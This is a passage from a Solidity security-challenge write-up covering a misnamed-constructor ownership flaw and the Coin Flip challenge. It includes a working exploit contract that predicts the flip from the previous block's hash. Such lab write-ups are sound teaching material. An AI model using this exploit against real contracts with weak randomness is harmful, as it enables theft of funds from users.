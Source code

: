 The supposed constructor is actually a public payable function here, thus
anyone can call it and become the owner.

### Key takeaway

Be on a lookout for faulty named constructors in contracts which use compiler
versions < 0.5.0.

## Coin Flip

### Reference

There's no native way of generating securely random numbers in Solidity.

Any randomness generation logic deployed in smart contracts can be sniffed and
replicated by a malicious actor.

To get cryptographically proven random numbers one may opt to use oracles such
as *Chainlink VRF*, which offload the generation of randomness off the chain.

### Vulnerability

The entire core logic of the contract.

### Solution

```solidity
contract HackCoinFlip {
    CoinFlip private target;
    uint256 FACTOR =
        57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _target) {
        target = CoinFlip(_target);
    }

    function flip() external {
        bool guess = _guess();
        require(target.flip(guess), "Guess failed!");
    }

    function _guess() private view returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        return side;
    }
}
```

Upon calling `flip()` 10 times the challenge is solved.

### Key takeaway
